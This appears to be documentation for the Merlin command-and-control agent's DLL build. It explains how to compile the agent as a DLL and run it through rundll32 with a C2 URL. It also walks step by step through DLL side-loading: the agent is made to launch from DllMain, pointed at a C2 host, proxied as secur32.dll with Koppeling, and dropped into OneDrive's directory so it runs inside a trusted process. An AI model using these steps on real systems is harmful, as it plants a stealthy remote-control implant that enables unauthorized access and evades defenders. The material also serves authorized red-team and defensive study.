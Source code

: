 #########
DLL Agent
#########

The Merlin Agent can be compiled into a DLL using the https://github.com/Ne0nd0g/merlin-agent-dll repository.
The ``merlin.c`` file is a very simple C file with a single function.
The ``VoidFunc`` and ``Run`` functions are exported to facilitate executing the DLL.

The ``VoidFunc`` function name was specifically chosen to facilitate use with PowerSploit's
`Invoke-ReflectivePEInjection.ps1 <https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1>`_.
Using ``VoidFunc`` requires no modification to run Merlin's DLL with Invoke-ReflectivePEInjection.

If the DLL is compiled on Windows, the `TDM-GCC <http://tdm-gcc.tdragon.net/download>`_ 64bit compiler has proven to work well during testing.

If the DLL is compiled on Linux, ensure ``MinGW-w64`` is installed.

Creating the DLL
----------------

The DLL can be created using the Make file with ``make``

Alternatively, it can be compiled without Make by following these steps:

* Create the required C archive file:
    ``go build -buildmode=c-archive main.go``

* Compile the DLL
    ``gcc -shared -pthread -o merlin.dll merlin.c main.a -lwinmm -lntdll -lws2_32``

You will now have DLL file that you can use with whatever method of execution you would like.

DLL Entry Points
----------------

This table catalogs the exported functions for ``merlin.dll`` that can be used as an entry point when executing the DLL.

.. csv-table:: Exported DLL Functions
   :header: "Exported Function", "Status", "Notes"
   :widths: auto

    Run, Working, Main function to execute Merlin agent
    DllInstall, Partial, Used with regsvr32.exe /i . Handling for ``/i`` not implemented
    DllRegisterServer, Working, Used with regsvr32.exe
    DllUnregisterServer, Working, Used with regsvr32.exe /u
    ReflectiveLoader, Removed, Used with Metasploit's windows/manage/reflective_dll_inject module
    Magic, Working, Exported function in ``merlin.c``; used with sRDI or any other method
    Merlin, Working, Exported function in ``main.go``
    VoidFunc, Working, Used with PowerSploit's Invoke-ReflectivePEInjection.ps1

Execution with rundll32.exe
----------------------------

The DLL can be executed on a Windows host using the rundll32.exe program. Examples of using ``rundll32`` are:

* ``rundll32 merlin.dll,Run``
* ``rundll32 merlin.dll,Merlin``
* ``rundll32 merlin.dll,Magic``

A different Merlin server *can* be provided when executing the DLL by supplying the target URL as an argument. An example is:

``rundll32 merlin.dll,Run https://yourdomian.com:443/``

**NOTE:** Passing a custom URL only works when using cmd.exe and fails when using powershell.exe

DLL Hijacking/Proxying with the Merlin DLL Agent
------------------------------------------------

With a little bit of setup, the Merlin DLL agent can be used for DLL Hijacking / Side-loading / Proxying. This is a great technique to get the Merlin agent running in the codespace of a trusted process.

The specifics on choosing an executable for DLL proxying are outside the scope of this documentation. Assume that a candidate executable has been identified.

In the ``merlin-agent-dll`` repo, add a new exported function with an arbitrary name to ``main.go``. Have this function execute the ``run`` function with the ``url`` argument:

.. code-block:: go
    
    // EXPORTED FUNCTIONS

    // MagicMan is a test function
    //
    //export MagicMan
    func MagicMan() {
        run(url)
    }

Note that the name of the exported function must match in the comment block and the code itself or Go will complain during compilation.

Now, in the ``merlin.c`` source code, add a new function that executes the exported function from ``main.go``:

.. code-block:: c
    
    DWORD WINAPI RunMagicMan(LPVOID LpParam){
        //MessageBoxA( NULL, "Hello from MagicMan() in Merlin", "DLL Load", MB_OK );
        MagicMan();
        return TRUE;
    }

Next, edit the structure of ``DllMain`` entry point. We want to create a thread that will execute the Merlin agent function when the DLL is side-loaded into the process:

.. code-block:: c
    
    BOOL WINAPI DllMain(
        HINSTANCE hinstDLL,  // handle to DLL module
        DWORD fdwReason,     // reason for calling function
        LPVOID lpReserved )  // reserved
    {
        // Perform actions based on the reason for calling.
        switch( fdwReason )
        {
            case DLL_PROCESS_ATTACH:
                //MessageBoxA( NULL, "Hello from DllMain-PROCESS_ATTACH in Merlin!", "DLL Load", MB_OK );
                CreateThread(NULL, 0, RunMagicMan, NULL, 0, 0);
                break;

Now, when the Merlin DLL Agent is loaded by a trusted process, the DLL entry point will run the CreateThread function and execute the agent.

Build the DLL agent with the merlin-agent-dll makefile and supply your desired URL, PSK, and protocol parameters:

``husky@dev-kde:~/merlin-agent-dll$ make URL=http://10.10.1.237:8443 PSK=merlin PROTO=http``

Let's assume that we're targeting the OneDrive.exe program for our DLL Proxy. We know that OneDrive.exe loads ``secur32.dll`` from the present working directory during execution.

We can now use a tool like Koppelling to create a proxied DLL:

``PS C:\Users\Matt\Desktop\Koppeling> .\NetClone.exe --target 'C:\Users\Matt\Desktop\merlin.dll' --reference 'C:\Windows\system32\secur32.dll' --output 'C:\Users\Matt\Desktop\secur32.dll'``

Then, we endeavor to drop our proxied DLL into the OneDrive application directory. Luckily for us, this is in %APPDATA% and we can write to the directory: 

``C:\Users\Matt\AppData\Local\Microsoft\OneDrive``

When the application starts, our proxied DLL is pulled into the process and a thread is executed. Our session is established and our agent lives inside the OneDrive.exe process:
